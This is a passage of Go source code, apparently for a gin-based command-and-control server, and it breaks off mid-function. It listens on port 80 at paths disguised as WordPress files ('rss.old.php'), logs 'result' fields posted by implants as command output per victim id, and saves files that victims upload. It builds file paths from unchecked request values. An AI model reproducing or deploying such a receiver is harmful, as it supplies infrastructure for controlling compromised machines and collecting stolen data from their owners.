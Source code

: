 -   main.go

```bash
package main

import (
    "awesomeProject3/common"
    "github.com/gin-gonic/gin"
    "os"
)

func main() {
    init_tasks()

    r := gin.Default()
    // 设置GIN模式为release模式
    gin.SetMode(gin.ReleaseMode)
    r.GET("/", common.HandleRoot)
    r.POST("/wp-includes/blocks/rss.old.php", common.Handle_POST)
    r.POST("/wordpress/wp-includes/rss.old.php", common.Handle_POST)
    r.Run(":80")
}

func init_tasks() {
    os.Remove("./conf/tmp.txt")
    common.WriteFile("./conf/tmp.txt", "0")
}
```

-   common.go

```bash
package common

import (
    "bufio"
    "fmt"
    "github.com/gin-gonic/gin"
    "io"
    "io/ioutil"
    "os"
    "strconv"
)

func HandleRoot(c *gin.Context) {
    c.String(200, "Hello, World!")
}

func Handle_POST(c *gin.Context) {
    str_id := c.PostForm("id")
    str_result := c.PostForm("result")
    file, header, _ := c.Request.FormFile("file")
    fmt.Println(str_id, str_result)
    if str_result != "" {
        WriteFile_A("./conf/"+str_id+".txt", "**********output********\r\n"+str_result+"\r\n")
        c.String(200, "rsp:")
    } else if header != nil {
        defer file.Close()
        // 创建一个新文件
        out, _ := os.Create("./conf/post_" + header.Filename)
        defer out.Close()
        // 将上传的文件内容拷贝到新文件中
        _, _ = io.Copy(out, file)
        c.String(200, "rsp:")
    } else if str_result == "" {
```